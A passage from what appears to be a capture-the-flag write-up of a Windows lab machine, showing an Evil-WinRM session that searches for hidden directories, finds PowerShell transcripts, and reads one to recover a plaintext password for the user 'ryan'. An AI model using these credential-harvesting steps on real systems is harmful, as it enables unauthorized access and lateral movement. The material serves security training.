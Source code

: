 ```
*Evil-WinRM* PS C:\> cmd /c "dir /adh /s"
 Volume in drive C has no label.                                                                       
 Volume Serial Number is 923F-3611                                                                     

 Directory of C:\                                                                                      

12/03/2019  06:40 AM    <DIR>          $RECYCLE.BIN
09/25/2019  09:17 AM    <JUNCTION>     Documents and Settings [C:\Users]
09/25/2019  09:48 AM    <DIR>          ProgramData
12/03/2019  06:32 AM    <DIR>          PSTranscripts                                                   
09/25/2019  09:17 AM    <DIR>          Recovery
09/25/2019  05:25 AM    <DIR>          System Volume Information
0 File(s)              0 bytes

//The command ran the "dir /adh /s" command under cmd.exe (command prompt). The dir command itself was actually configured to do a //recursive search for hidden directories and files. There's a lot more results, but the PSTranscripts should stand out immediatly
```

Traversing through this directory eventually leads us to a file, and when read it reveals the following information:

```
*Evil-WinRM* PS C:\> type C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************   
Windows PowerShell transcript start
Start time: 20191203063201                                                                             
Username: MEGABANK\ryan      
RunAs User: MEGABANK\ryan  
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)                                        
**********************   
Command start time: 20191203063515                                                                     
**********************                                                                                 
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
                                                   
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="Stream"; value="True"
**********************
//filtered for readability
```
